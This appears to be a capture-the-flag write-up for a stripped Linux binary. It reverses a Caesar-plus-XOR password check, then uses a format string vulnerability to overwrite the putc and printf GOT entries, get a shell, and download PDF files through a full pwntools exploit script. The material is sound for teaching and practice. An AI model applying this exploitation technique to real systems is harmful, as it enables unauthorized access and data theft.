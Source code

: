 ## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary

![image](includes/images/file.png)

On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.

![image](includes/images/checksec.png)

On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra

![image](includes/images/run.png)

We see that the executable asks for a password and gives a 4 sec window to enter the password. 

![image](includes/images/check_fsv.png)

We check whether the password field has a format string vulnerability. But it doesn't.

![image](includes/images/decompile_entry.png)

We decompile it with Ghidra. Since the executable is stripped, Ghidra shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.

![image](includes/images/main.png)

The main function has 3 functions FUN_00401216(), FUN_00401259(), FUN_00401448() (function FUN_00401230() is a callback to handle the alarm() and does nothing interesting)

![image](includes/images/print.png)

FUN_00401216() just prints.

![image](includes/images/pass.png)

FUN_00401259() asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`

![image](includes/images/init.png)

FUN_00401448() is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the pass() function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the init() function so that it loops arround and exploit the format string vuln as many times as required. We choose the putc function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of printf() with system so that in the next looping, we can enter `/bin/sh`. This converts the printf(s) to essentially work like system("/bin/sh").


### Step 3: Reversing the password

We shall rename few variables to analyze the pass() function

![image](includes/images/pass_rename.png)


__Note__ : `input[10]` in the decompiled code and fgets() that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes above the rbp as shown below.
![image](includes/images/note.png)


We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to `cLVQjFMjcFDGQ`.

![image](includes/images/peculiar.png)

Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.

![image](includes/images/shift_and_x.png)


So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.

![image](includes/images/xor_reverse.png)

We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"

![image](includes/images/caesar_cipher_reverse.png)

### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

the offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 

![image](includes/images/offset.png)

the offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.

![image](includes/images/system_printf.png)

![image](includes/images/putc.png)

![image](includes/images/init_addr.png)


### Step 5: Crafting the exploit

Also the presence of system("ls *.pdf") in init() suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` python
from pwn import *
context.binary = ELF("path/to/binary")
context.log_level = "debug"

OFFSET = 6

# from reversing pass()
password = b"Lost_in_Light"

# from ghidra
system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

# built in pwntools functions to overwrite GOT entries
fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("path/to/binary")
# For remote
# p = remote(host,port)

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

# receiving the files as base64 and decoding back to pdf to read the pdfs
files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```


